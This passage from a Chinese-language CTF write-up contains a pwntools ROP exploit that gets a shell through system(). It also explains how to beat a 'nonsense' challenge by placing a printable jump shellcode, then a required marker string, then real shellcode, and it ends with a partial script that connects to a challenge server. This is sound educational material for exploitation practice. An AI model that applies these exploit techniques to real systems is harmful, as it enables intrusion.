 ```python
# 0x0000000000400546 : ret
# 0x00000000004007a3 : pop rdi ; ret
pop_rdi = 0x4007a3
ret = 0x0400546
system = elf.symbols['system']

payload = bytes('A', 'latin-1') *(64-8) + p64(ret) + p64(pop_rdi) + p64(0x4007c8)
payload += p64(system)

r.recvline()
r.sendline(payload)
r.interactive()
```

### nonsense

程式可以輸入兩個字串，之後會檢查第二個字串，接著程式會 call 它（很明顯就是要塞 shellcode），但沒那麼簡單。

![](https://i.imgur.com/cbk8xjO.png)

`check()` 會檢查 `wubbalubbadubdub` 是否為 `yours` 的子字串（只檢查到第一個 match 的)
而且會先檢查該字元 `your[i]` 是否 `<= 0x1f`，但只要出現了 `wubbalubbadubdub` 後頭就不會檢查
也就是說後頭可以塞正常的 shellcode

![](https://i.imgur.com/zMG6gUe.png)

想法： 開頭塞個 ascii printable shellcode 跳轉到後頭的 shellcode，中間就塞 `wubbalubbadubdub`

```
   /-------------------\
  +                     v
[跳轉][wubbalubbadubdub][shellcode]
```

```python
#!/usr/bin/env python3
# -*- coding: UTF-8 -*-
from pwn import *

context(arch='amd64', os='linux') # i386, amd64
_ATT = 0
_local = 0

host = "60.250.197.227"
port = "10001"
exe_path = './nonsense'
#libc_path = './LIBC'
r = None
elf = None
libc_elf = None
def conn():
	global r, elf, libc_elf
	elf = ELF(exe_path)
	#libc_elf = ELF(libc_path)
	if _local:
		r = process(exe_path)
	else:
		r = remote(host, port)
conn()
if _ATT:
	log.info('Waiting for attach...')
	raw_input()
# bytes('A', 'latin-1')

r.recvuntil('?')
```